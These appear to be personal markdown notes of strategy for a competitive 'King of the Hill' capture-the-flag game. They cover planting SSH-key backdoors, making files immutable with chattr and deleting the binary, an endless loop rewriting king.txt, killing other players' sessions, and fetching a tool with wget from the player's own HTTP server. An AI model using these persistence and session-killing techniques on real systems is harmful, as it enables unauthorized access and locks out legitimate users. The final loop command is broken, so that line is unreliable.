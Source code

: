 Stragegy 

`try to get into root and echo your name on king.txt` `this gives you contant point which is better than finding flag`

Scan 

`do rustscan than namp` 
 `rustscan gives quicker scan result`
 
 backdoor 

`always make a backdoor once you get into the shell` 
 `incase someone kill you on shell` `or` `shell got disconnected you have your backdoor`
 
 how to create backdoor

`generate ssh keygen` `ssh-keygen`
 
 defend you ssh key
 
 `if someone finds your ssh there is high chance that they delete your key` `so it's better if you defend your ssh key`
 
 `try to put your ssh on some unexpected place like /etc /usr`
 
 `make your ssh immutable so that no one can delete` `with following command`
 
      chattr -R +i .ssh
      
 `now you likely to do is to delete the chattr binary from /usr/bin so that no one can make it mutable again`
 
 *Ultimate Defences*
 
 `now you need to defend your position`
 
`try the same` 
`once you put your name on king.txt` `make it immutable` `with the command chattr just like above on ssh` 

    chattr +i /root/king.txt
    
`now delete the chattr again` 

or 

Run a while loop to echo your name on king.txt so that if any one even change the name then after a second that king.txt again contains your name again

    while true; do echo "prakashchand72" > king.txt ; done 
 
now you can start find other flag

    find \ -name flag.txt 2>/dev/null
    
sometime you can also kill other user from shell
    
`type`

    who

`this shows the ip and pty number`
`find which is your pty and seeing your ip` `and start kill others pty`

    ps aux | grep "pty"

or

    ps aux | grep "ssh"
    
`now get the proccess of id of other and kill them`

    kill {pid no here}
    
commmunicate with others

`you can also broadcast the message to others on the shell with the wall command`

    wall hello this is prakash
    
Breaking the Defence 

 `if you got situation when someone does` `chattr +i king.txt` `then you can uplaod your own chattr and make it mutable again`
 
 `on your local machine go to your /usr/bin and transfer the file of chattr to the machine`
 
`something like` 

    python3 -m http.server 8080
    
    wget ip:8080/chattr 
    
    chmod +x chattr 
    
 `now on your king.txt`
 
    chattr -i king.txt

*Unbreakable Defence own exploit*

    while true; do "prakashchand72 is the king"; done 
    
    
 cc@ prakashchand72 
